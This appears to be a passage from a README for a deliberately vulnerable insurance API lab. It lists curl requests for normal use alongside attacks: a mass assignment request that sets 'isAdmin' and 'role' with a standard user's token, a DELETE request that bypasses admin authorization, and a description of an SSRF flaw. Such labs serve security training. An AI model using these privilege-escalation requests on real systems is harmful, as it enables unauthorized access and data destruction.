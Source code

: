 #### SSRF via Document Preview
```bash
# Normal request (UI sends this)
curl -X POST http://localhost:3001/api/documents/preview \
  -H "Content-Type: application/json" \
  -d '{}'

# SSRF attack (requires backend modification to accept configurable URLs)
# The vulnerability is that the backend makes requests to hardcoded URLs without validation
```

#### Mass Assignment
```bash
# Normal request (UI sends this)
curl -X PATCH http://localhost:3001/api/admin/settings \
  -H "Authorization: Bearer <token>" \
  -H "Content-Type: application/json" \
  -d '{"theme": "dark", "notifications": true}'

# Mass assignment attack (attacker discovers and exploits)
curl -X PATCH http://localhost:3001/api/admin/settings \
  -H "Authorization: Bearer <standard_user_token>" \
  -H "Content-Type: application/json" \
  -d '{"theme": "dark", "notifications": true, "isAdmin": true, "role": "admin"}'
```

#### HTTP Method Bypass
```bash
# Standard user GET request (should be blocked)
curl -X GET http://localhost:3001/api/admin/reports \
  -H "Authorization: Bearer <standard_user_token>"

# Standard user DELETE request (vulnerable - should be blocked but isn't)
curl -X DELETE http://localhost:3001/api/admin/reports \
  -H "Authorization: Bearer <standard_user_token>"

# Admin user GET request (should work)
curl -X GET http://localhost:3001/api/admin/reports \
  -H "Authorization: Bearer <admin_token>"
```

#### Secure Endpoints
```bash
# Get policy categories (no auth required)
curl "http://localhost:3001/api/policies/categories"

# Get user notifications (auth required)
curl -X GET http://localhost:3001/api/user/notifications \
  -H "Authorization: Bearer <your_jwt_token>"

# Get coverage details (auth required)
curl -X GET http://localhost:3001/api/coverage/details \
  -H "Authorization: Bearer <your_jwt_token>"

# Submit claim estimate (auth required)
curl -X POST http://localhost:3001/api/claims/estimate \
  -H "Authorization: Bearer <your_jwt_token>" \
  -H "Content-Type: application/json" \
  -d '{"policyId": "INS-123456", "incidentType": "vehicle", "estimatedDamage": 3000}'
```
